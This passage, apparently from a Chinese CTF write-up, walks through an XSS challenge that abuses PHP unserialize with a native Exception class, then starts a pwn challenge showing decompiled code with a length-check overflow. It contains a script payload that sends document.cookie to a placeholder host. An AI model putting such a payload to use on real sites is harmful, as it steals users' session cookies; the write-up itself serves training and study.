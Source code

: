 7. Flag 到手~


## xss之光（你没有杨大树长） - 杨大树

1. 扫描敏感目录，有git泄漏

![图片28](https://uploader.shimo.im/f/IMOsKT45ioYkSzv9.png!thumbnail)

2. githack扫描得到源码

```
<?php
$a = unserialize($_GET['yds_is_so_beautiful']);
echo $a;   
```

3. 结合题目名字知道应该是利用php的原生类进行xss

payload

```
<?php
$a = serialize(new Exception("<script>window.location.href='xxxx'+document.cookie</script>"))
echo $a;
```

4. 然后可以在cookie中找到flag

# Pwn

## ret2text3.0 - 知世

紧接上次 bjdctf,ret2text2.0

考点:短整型溢出

漏洞在name_check函数

```
char *__cdecl name_check(char *s)
{
  char dest; // [esp+7h] [ebp-11h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  printf("Hello,My dear %s", s);
  return strcpy(&dest, s);
}
```
